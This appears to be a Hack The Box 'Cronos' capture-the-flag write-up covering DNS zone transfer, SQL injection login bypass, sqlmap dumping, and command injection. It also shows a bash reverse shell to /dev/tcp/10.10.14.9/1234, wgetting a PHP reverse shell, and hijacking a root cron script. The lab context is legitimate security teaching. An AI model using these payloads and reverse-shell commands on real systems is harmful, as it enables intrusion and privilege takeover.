





# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.13
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 13:57 +08
Nmap scan report for 10.10.10.13
Host is up (0.0037s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.12 (90%), Linux 3.13 or 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT     ADDRESS
1   4.55 ms 10.10.14.1
2   4.56 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.86 seconds
```

Looks like port 53 is open. So let’s do some DNS enumeration!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nslookup                     
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

The first commands sets the server to Cronos, and then the second command looks for the IP address of the server.

Given that there is a DNS server, we should test for DNS zone transfers.

>   DNS zone transfer, also sometimes known by the inducing DNS query type AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers. ([Source](https://en.wikipedia.org/wiki/DNS_zone_transfer))

We can follow the steps [here](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/) to initiate DNS Zone Transfers.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# dig +short ns cronos.htb                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.18.0-2-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 4 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Apr 22 14:10:44 +08 2022
;; XFR size: 7 records (messages 1, bytes 203)
```

Oh? It seems like there is an interesting `admin.cronos.htb` subdomain.

Alternatively, we can bruteforce the subdomains using `gobuster`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     cronos.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
2022/04/22 14:55:19 Starting gobuster in DNS enumeration mode
===============================================================
Found: ns1.cronos.htb
Found: admin.cronos.htb
                                 
===============================================================
2022/04/22 15:18:15 Finished
===============================================================
```

Let’s add all these domains and subdomain into our `/etc/hosts` file.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# cat /etc/hosts     
127.0.0.1	localhost
127.0.1.1	shiro.shiro	shiro
10.10.10.48     mirai.htb
10.10.10.13     cronos.htb ns1.cronos.htb admin.cronos.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, let’s take a look at their website.





All the links in the webpage leads to something Lavarel related. Therefore, we should run a `gobuster` to check for hidden directories.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# gobuster dir -u http://cronos.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cronos.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/22 14:18:06 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 306] [--> http://cronos.htb/css/]
/js                   (Status: 301) [Size: 305] [--> http://cronos.htb/js/] 
/server-status        (Status: 403) [Size: 298]                           
===============================================================
2022/04/22 14:19:26 Finished
===============================================================
```

It seems like nothing interesting was returned. Let’s move on to the `admin.cronos.htb` webpage instead.



Trying `admin:admin` doesn’t work. Instead, I tried using some generic SQL injection payloads listed [here](https://github.com/payloadbox/sql-injection-payload-list).

The payload that worked was this `' OR 1 -- -`. This probably indicates that the server is using MySQL.

##### Alternative Method

Another way we could automate this process is to use `sqlmap`. To do so, we have to intercept the login request with Burp and save it to a file first, then run `sqlmap`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# cat login_request.txt
POST / HTTP/1.1
Host: admin.cronos.htb
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://admin.cronos.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6e7ohtcagfddqgcaab5qor2ir5
Connection: close

username=admin&password=admin

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt --dbs --batch                          
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:39:34 /2022-04-22/

[14:39:34] [INFO] parsing HTTP request from 'login_request.txt'
[14:39:34] [INFO] resuming back-end DBMS 'mysql' 
[14:39:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6061 FROM (SELECT(SLEEP(5)))JZOF) AND 'yAhh'='yAhh&password=admin
---
[14:39:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:39:34] [INFO] fetching database names
[14:39:34] [INFO] fetching number of databases
[14:39:34] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[14:39:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[14:39:44] [INFO] retrieved: 
[14:39:49] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[14:40:46] [INFO] retrieved: admin
available databases [2]:
[*] admin
[*] information_schema

[14:41:01] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.cronos.htb'

[*] ending @ 14:41:01 /2022-04-22/
```

Now we know that there are 2 databases - `admin` and `information_schema`.

Let’s take a look at the tables inside the database `admin`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin --tables --batch
...
[14:43:43] [INFO] adjusting time delay to 1 second due to good response times
users
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```

Yay, we found a table `users`! Let’s dump all the data.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin -T users --dump --batch
...
[14:48:44] [WARNING] no clear password(s) found                        
Database: admin
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 4f5fffa7b2340178a716e3832451e058 | admin    |
+----+----------------------------------+----------+
...
```

Nice, we found the password hash for admin.

[Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) found the hash to be either MD5 or MD4.

Using [MD5Online](https://www.md5online.org/md5-decrypt.html), we found the plaintext to the hash which is `1327663704`.

# Exploit

After bypassing the login page, we are brought to this webpage.



As we are given a user input box, we should test for command injection.



Great, it seems like we can issue some malicious commands. Let’s start a netcat listener and inject a bash reverse shell command `bash -c 'exec bash -i &>/dev/tcp/10.10.14.9/1234 <&1'`

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.13] 39618
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
whoami
www-data
```

# Privilege Escalation

To check for any vulnerabilities, we can use the [LinEnum](https://github.com/rebootuser/LinEnum) script. 

First, we download the script on our local machine, then we host it on our own server using `python3 -m http.server 80`.

```bash
www-data@cronos:/var/www/admin$ wget http://10.10.14.9/LinEnum.sh
wget http://10.10.14.9/LinEnum.sh
--2022-04-22 10:08:40--  http://10.10.14.9/LinEnum.sh
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... .....     100% 2.60M=0.02s

2022-04-22 10:08:40 (2.60 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@cronos:/var/www/admin$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
www-data@cronos:/var/www/admin$ ./LinEnum.sh
...
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
...
```

There is an interesting `artisan` script that is running. Let’s check out who owns the script!

```bash
www-data@cronos:/var/www/admin$ ls -la /var/www/laravel/ 
ls -la /var/www/laravel/
total 2012
drwxr-xr-x 13 www-data www-data    4096 Apr  9  2017 .
drwxr-xr-x  5 root     root        4096 Apr  9  2017 ..
-rw-r--r--  1 www-data www-data     572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data    4096 Apr  9  2017 .git
-rw-r--r--  1 www-data www-data     111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data     117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 Apr  9  2017 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
drwxr-xr-x  3 www-data www-data    4096 Apr  9  2017 bootstrap
-rw-r--r--  1 www-data www-data    1300 Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data  121424 Apr  9  2017 composer.lock
-rwxr-xr-x  1 www-data www-data 1836198 Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 config
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 database
-rw-r--r--  1 www-data www-data    1062 Apr  9  2017 package.json
-rw-r--r--  1 www-data www-data    1055 Apr  9  2017 phpunit.xml
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 public
-rw-r--r--  1 www-data www-data    3424 Apr  9  2017 readme.md
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 resources
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 routes
-rw-r--r--  1 www-data www-data     563 Apr  9  2017 server.php
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 storage
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 tests
drwxr-xr-x 31 www-data www-data    4096 Apr  9  2017 vendor
-rw-r--r--  1 www-data www-data     555 Apr  9  2017 webpack.mix.js
```

Nice! The script is owned by `www-data` which means we can abuse this.

We can now change the `artisan` script to a malicious reverse shell script. OwO

To do this, we can create the malicious reverse shell script on our local machine and then transfer it over to the exploited machine.

```bash
www-data@cronos:/var/www/laravel$ wget http://10.10.14.9/revshell.php
wget http://10.10.14.9/revshell.php
--2022-04-22 10:21:02--  http://10.10.14.9/revshell.php
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [application/octet-stream]
Saving to: 'revshell.php'

     0K .....                                                 100% 13.8M=0s

2022-04-22 10:21:02 (13.8 MB/s) - 'revshell.php' saved [5491/5491]

www-data@cronos:/var/www/laravel$ cp revshell.php artisan
cp revshell.php artisan

- Another netcat listner -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.13] 51508
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:22:01 up  1:25,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls /home
noulis
# cat /home/noulis/user.txt
51d236438b333970dbba7dc3089be33b
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

